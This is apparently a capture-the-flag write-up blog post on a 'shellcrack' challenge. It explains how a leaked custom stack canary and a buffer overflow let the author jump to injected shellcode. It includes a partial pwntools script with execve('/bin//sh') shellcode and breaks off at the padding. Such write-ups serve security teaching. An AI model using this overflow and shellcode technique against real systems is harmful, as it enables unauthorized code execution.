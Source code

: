 ```yaml
---
title: So You Think Fgets is Safe?
date: "2020-07-12 15:10:31.582772"
description: "Exploiting the use of improper fgets to grab a shell :)"
categories: ["code"]
---
```


# So You Think Fgets is Safe?

_- Atharv Damle _

## Shellcrack

---

FLAG{REDACTED}

---

This was a simple, "run your shellcode" challenge. Use the buffer overflow to overwrite the return address with the address of your buffer. Since the address of the buffer is given to you, this one was pretty easy.

If there was one issue, it would be that there's a canary. But since it does not show up on `checksec`, it is a user made canary. The fun part is that the canary leaks itself, because the buffer is copied to 0x20 bytes after the start of the actual buffer, and printed from there, leaking the canary which is right after. Brilliant.

1. Since the fread, accepts only 0x10 bytes, we put in some random characters + a newline
2. Read in the canary that was leaked
3. Put the shellcode in the buffer, then proceed to jump to it and execute to pop a shell
4. `cat flag`

```
#!/usr/bin/python3

from pwn import *

#p = process('./shellcrack')
p = remote('plsdonthaq.me', 5001)

fread = b'\x90' * (0x10 - 1)

# shell exec code lol
payload = asm('''

sub esp, 0x50

push 0
push {}
push {}

mov eax, 0xb
mov ebx, esp
mov ecx, 0
mov edx, 0
mov esi, 0

int 0x80

'''.format(u32('//sh'), u32('/bin')))

padding = b'AAAABBBBC'
```